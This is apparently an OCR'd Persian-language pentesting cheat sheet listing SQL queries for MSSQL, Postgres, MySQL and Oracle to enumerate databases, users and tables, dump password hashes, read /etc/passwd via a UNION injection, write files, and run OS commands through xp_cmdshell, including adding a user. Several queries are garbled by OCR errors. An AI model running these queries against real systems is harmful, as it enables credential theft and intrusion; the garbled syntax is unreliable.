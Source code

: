 # پایگاه داده

Ms-sql

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>دستور</b>
      </th>
      <th style="text-align:left"><b>توضیح</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SELECT @@version</td>
      <td style="text-align:left">نسخه پایگاه داده</td>
    </tr>
    <tr>
      <td style="text-align:left">EXEC xp_msver</td>
      <td style="text-align:left">جزییات نسخه</td>
    </tr>
    <tr>
      <td style="text-align:left">EXEC master..xp_cmdshell &apos;net user&apos;</td>
      <td style="text-align:left">اجرا دستور سیستم عامل</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT HOST_ NAME()</td>
      <td style="text-align:left">دریافت Hostname و IP</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT DB_ NAME()</td>
      <td style="text-align:left">پایگاه داده فعلی</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name FROM master..sysdatabases;</td>
      <td style="text-align:left">لیست پایگاه داده ها</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT user name()</td>
      <td style="text-align:left">کاربر فعلی</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name FROM master .. sjslogins</td>
      <td style="text-align:left">لیست کاربران</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>SELECT name FROM master..sysobjects WHERE</p>
        <p>xtype= &apos;U&apos;;</p>
      </td>
      <td style="text-align:left">لیست جدول ها</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p></p>
        <p>SELECT name FROM syscolumns WHERE id=(SELECT</p>
        <p>id FR0M sysobjects WHERE name- &apos;mjtable&apos; ) ;</p>
      </td>
      <td style="text-align:left">لیست ستون ها</td>
    </tr>
  </tbody>
</table>

### اطلاعات درباره تمام جدول های پایگاه داده در جدول سیستم

```text
SELECT TOP 1 TABLE_NAME FROM INFORMATION SCHEMA.TABLES
```

### لیست جدول و ستون ها

```text
SELECT name FROM Syscolumns WHERE id
(SELECT id FROM Sysobjects WHERE
name= 'mytable')
```

### هش کلمه عبور 

```text
SELECT name, password hash FROM master.sys.sgl_logins
```

## Postgres

| **دستور** | **توضیح** |
| :--- | :--- |
| SELECT version\(\); | نسخه پایگاه داده |
| SELECT inet server\_addr\(\) | دریافت Hostname و IP |
| SELECT current database\(\); | پایگاه داده فعلی |
| SELECT datname FROM pg database; | لیست پایگاه داده |
| SELECT user; | کاربر جاری |
| SELECT username FROM pg\_user; | لیست کاربران |
| SELECT username,passwd FROM pg shadow | لیست هش کلمه عبور |

### لیست ستون

```text
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A,
pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND
(A.attrelid=C.oid) AND (A.atttjpid=T.oid) AND (A.attnum 0) AND (NOT
A.attisdropped) AND (N.nspname ILIKE 'public')
```

### لیست جدول ها

```text
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN
pg catalog.pg namespace n ON n.oid = c.relnamespace WHERE c.relkind IN
( 'r',") AND n.nspname NOT IN ( 'pg catalog', 'pg toast') AND
pg_catalog.pg_table_is_visible(c.oid)
```

## Mysql

| **دستور** | **توضیح** |
| :--- | :--- |
| SELECT @@version; | نسخه پایگاه دااده |
| SELECT @@hostname; | دریافت Hostname و IP |
| SELECT database\(\); | پایگاه داده فعلی |
| SELECT distinct \(db\) FROM mysql.db; | لیست پایگاه داده ها |
| SELECT user\(\); | کاربر فعلی |
| SELECT user FROM mysql.user; | لیست کاربران |
| SELECT host,user,password FROM mJsql.user; | لیست هش کلمه عبور ها |

### لیست تمامی جداول و ستون ها

```text
SELECT table schema, table name, column_ name FR0M
information scherna.columns WHERE
table schema != 'mysql' AND table schema != 'information schema'
```

### اجرای دستور سیستم عامل در mysql

```text
osql -S ip , port -U sa -P pwd -Q "exec xp cmdshell `net user /add user
passr`"
```

### خواندن فایلی های خواندنی در mysql

```text
UNION ALL SELECT LOAD FILE( '/etc/passwd');
```

### نوشتن در فایل سیستم در mysql

```text
SELECT * FROM mytable INTO dumpfile '/tmp/ somefile';
```

## Oracle 

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>دستور</b>
      </th>
      <th style="text-align:left"><b>توضیح</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SELECT * FROM v$version;</td>
      <td style="text-align:left">نسخه پایگاه داده</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT version FROM v$instance;</td>
      <td style="text-align:left">نسخه پایگاه داد</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT instance name FROM v$instance;</td>
      <td style="text-align:left">پایگاه داده فعلی</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name FROM v$database;</td>
      <td style="text-align:left">پایگاه داده فعلی</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT DISTINCT owner FROM all_tables;</td>
      <td style="text-align:left">لیست پایگاه داده ها</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT user FROM dual;</td>
      <td style="text-align:left">کاربر فعلی</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>SELECT username FROM all_users ORDER BY</p>
        <p>username;</p>
      </td>
      <td style="text-align:left">لیست کابران</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT column name FROM all_tab_columns;</td>
      <td style="text-align:left">لیست ستون ها</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT table name FROM all_tables;</td>
      <td style="text-align:left">لیست جدول ها</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name, password, astatus FROM sys.user$;</td>
      <td style="text-align:left">لیست هش کلمه عبور ها</td>
    </tr>
  </tbody>
</table>

### لیست پایگاه های داده

```text
SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = 'YES';
```
